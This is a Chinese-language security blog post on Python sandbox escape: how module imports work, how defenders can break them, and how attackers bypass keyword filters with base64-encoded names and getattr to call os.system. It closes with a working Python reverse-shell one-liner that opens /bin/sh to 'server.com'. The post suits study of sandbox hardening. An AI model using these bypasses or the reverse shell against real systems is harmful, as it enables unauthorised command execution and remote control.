


Title:python安全之模块导入的基本逻辑
Date: 2018-01-26 10:20
Category: python安全
Tags: python,import
Slug: 
Authors: bit4woo
Summary: 


执行系统命令基本逻辑：第一步、导入一个模块，第二步、调用该模块中的危险函数完成系统命令的执行

所以对应的防御的思路：方法一、进行运行环境级别的对抗，破坏或者利用导入机制；方法二：检查代码中的危险库和危险函数，进行过滤；


### 0x0、常规导入模块的几种方法

导入模块的方法有如下三个：

```
import       关键字，          实质是调用__import__来完成的，所以它的依赖条件等同于__import__
__import__   函数，            属于__builtins__模块，也就是依赖__builtins__
importlib    python内置库，    但是使用前需要先导入，所以它的依赖和__import__一样


还有一些其他的导入相关库：https://docs.python.org/3/library/modules.html，它们都和importlib一样需要先导入。
zipimport — Import modules from Zip archives
pkgutil — Package extension utility
modulefinder — Find modules used by a script
runpy — Locating and executing Python modules
```

import和`__import__`并不是完全等价的，它们存在如下的区别：

import包含了2个操作：一是搜索指定的模块，然后将搜索结果绑定到当前作用域。

而`__import__`只包含了一个操作：即“搜索指定的模块”，如果找到了，就创建模块对象。并不会进行名称绑定操作。（需要自己主动将它的值赋给一个变量，这个就是名称绑定操作）



另外值得注意的是：其他的模块导入方式不一定都是使用`__import__`来实现的，它们完全可以使用其他的代码实现，比如 [`importlib.import_module()`](https://docs.python.org/3/library/importlib.html#importlib.import_module)


可以执行命令的第三方模块：os|commands|subprocess|sys

可以实现模块导入的第三方模块：importlib、imp、zipimport、pkgutil、modulefinder、runpy

### 0x1、默认导入的模块----`__builtins__`

上面提到的三种导入模块的方法都有一个共同的依赖，那就是`__builtins__`。`__builtin__`是一个默认导入的模块（module），在python的初始运行环境中就存在于内存中了。

所以如果要破坏导入机制，可以从`__builtins__`入手，从中删除`__import__`函数，这样以上三种导入模块的方法就都失效了：


但是就如刚刚提到的，`__builtins__`是默认就导入的，它其中也包含了一些危险函数。

`__builtins__`模块中的危险函数：`eval、exec、execfile、reload` 。前三个容易理解，因为他们本身可以执行表达式、代码、文件，而reload之所以危险是，因为它可以让`__builtins__`回到初始模样。



```
reload(__builtin__)
#reload本身就属于__builtin__


import imp
imp.reload(__builtin__)
```

**所以如果单从控制`__builtin__`的角度（破坏导入机制的第一种方法）**，至少应该关注它的如下五个函数：

`__import__、eval、exec、execfile、reload`


### 0x2、sys.modules是`__import__`的缓存

sys.modules是一个全局字典，该字典是python启动后就加载在内存中。当某个模块第一次被导入时，字典sys.modules将自动记录该模块；当第二次再导入该模块时，python会直接到字典中查找，从而加快了程序运行的速度。也就是说：在导入一个模块的时候，会先搜索sys.modules，如果存在就按照sys.modules的值进行导入，如果不存在就按照 “当前路径==>sys.path”的顺序进行搜索并导入。

如果一个类的名称已经存在于sys.modules时，`__import__`是不会再去搜索模块文件的。那么我们如果修改了字典的值为一个错误的值，是不是就不能正常使用这个模块了呢？

```python
>>> import sys
>>> sys.modules['os']
<module 'os' from 'C:\ProgramData\Miniconda2\lib\os.pyc'>
>>> import os
>>>
>>>
>>> sys.modules['os']=None
>>> import os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ImportError: No module named os
```

通过如上的验证，确实可以。所以，**我们可以通过操控sys.modules来破坏导入机制（破坏导入机制的第二种方法）**；当然，攻击者如果也可以操控sys.modules也就能把值修改正确，这也是危险模块的成员中有sys的原因。


### 0x3、导入模块的实质就是把对应模块的代码执行一遍

不需要 sys.modules ,不需要 `__import__`，只需要知道模块的文件路径即可

```python
Python 2.7.14 |Anaconda, Inc.| (default, Nov  8 2017, 13:40:45) [MSC v.1500 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> execfile('C:\ProgramData\Miniconda2\lib\os.py')
>>> system('whoami')
desktop-hpsg7tl\bit4
0
>>>
```

所以，想要应对这种情况，除了从`__builtin__`中禁用execfile，当然还可以直接从文件入手，**删除相关py文件（破坏导入机制的第三种方法）**，这种方法很危险，容易破坏整个运行环境。

### 0x4、模块加载顺序竞争

刚刚提到导入模块时的搜索优先顺序是 “当前路径==>sys.path”。如果攻击这可以复制、移动、保存文件，可能导致一种“模块加载顺序竞争”的问题：比如攻击者可以复制os.py或者写一个含有恶意代码的os.py到运行环境的当前路径下，这样导入时导入的将是当前路径下的os.py，而不是系统库里默认的os.py了**（破坏导入机制的第四种方法）**。对于web环境中存在文件上传漏洞的情况可能比较适用。


======================================分割线=================================

前面四个小节讲的都是“破坏或者利用导入机制”，后面的内容关于"过滤危险库和函数"。

======================================分割线=================================

### 0x4、导入时的“代码混淆”

一种显而易见的防御机制就是搜索代码中的关键词，然后进行过滤，那么如何绕过呢？答案是编码（确切的说应该是字符变换，编码是其中的一种！）

```python
>>> import base64
>>> import importlib
>>>
>>> print base64.b64decode('b3M=')
os
>>> y = __import__(base64.b64decode('b3M='))
>>> y.system('whoami')
desktop-hpsg7tl\bit4
0
>>>
>>> z = importlib.import_module( base64.b64decode('b3M='))
>>> z.system('whoami')
desktop-hpsg7tl\bit4
0
>>>
#如上，以上可以不出现'os'关键词而完成os.system的调用。
```


### 0x5、调用时的“代码混淆”

如果过滤了关键字system呢？

```python
>>> import base64
>>> import importlib
>>>
>>> y = __import__(base64.b64decode('b3M='))
>>> getattr(y,base64.b64decode('c3lzdGVt'))('whoami')
desktop-hpsg7tl\bit4
0
>>>
>>>
>>> z = importlib.import_module( base64.b64decode('b3M='))
>>> getattr(z,base64.b64decode('c3lzdGVt'))('whoami')
desktop-hpsg7tl\bit4
0
>>>
#如上，对‘system’也进行了编码，通过getattr来完成函数的调用。
```

这样就在不出现os 和 system关键词的情况下完成了os.system('whoami')的调用，当然其中的编码方法可以采取其他的。


### 0x6、了解你的处境

- 用dir或者`__dict__`属性去获得一个模块/类/对象 下面 所有的属性和函数


- 查看当前环境（python程序或者交互的python shell）中已定义的函数，变量等

```
>>> import base64
>>> import importlib
>>> import sys
>>>
>>> x= 1
>>> def funcx(x):
...     print x
...
>>> print dir(sys.modules[__name__])
['__builtins__', '__doc__', '__name__', '__package__', 'base64', 'funcx', 'importlib', 'sys', 'x']
>>>
#if __name__ == "__main__" 这句常用的语句，其中的__name__就指当前模块的名称。
```

- 使用inspect模块中的方法可以获取源码

```
import inspect

class test():
    def __init__(self):
        self.x= 1
    def func(self):
        print self.x

if __name__ == "__main__":
	print inspect.getsource(test)

#inspect还有很多其他方法
```

- func_code获取字节码相关内容

```
def func(self):
    print self.x

print func.func_code
```

- 查看一个类型所继承的父类的列表


```
>>> "x".__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)
```

- 访问python中的伪Private属性和函数


python中以双下划线开头的函数和属性是Private的,但是这种Private并不是真正的,而只是形式上的,用于告诉程序员,这个函数不应该在本类之外的地方进行访问,而是否遵守则取决于程序员的实现

```python
>>> class test():
...     __a = 1
...     def __init__(self):
...         self.x= 1
...     def __func(self):
...         print "1111"
...
>>>
>>>
>>> dir(test)
['__doc__', '__init__', '__module__', '_test__a', '_test__func']
>>> test._test__a#变量可以通过这种方式直接访问
1
>>> test._test__func
<unbound method test.__func>
>>> test._test__func()
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: unbound method __func() must be called with test instance as first argument (got nothing instead)
>>> test._test__func(test())#函数的不能直接调用必须要涉及到test的实例化
1111
#不实例化，直接访问
```

### 0x7、执行命令

```
#执行反弹shell的命令

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("server.com",8000));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

#一句话格式
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("server.com",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

**参考：**

https://xianzhi.aliyun.com/forum/topic/52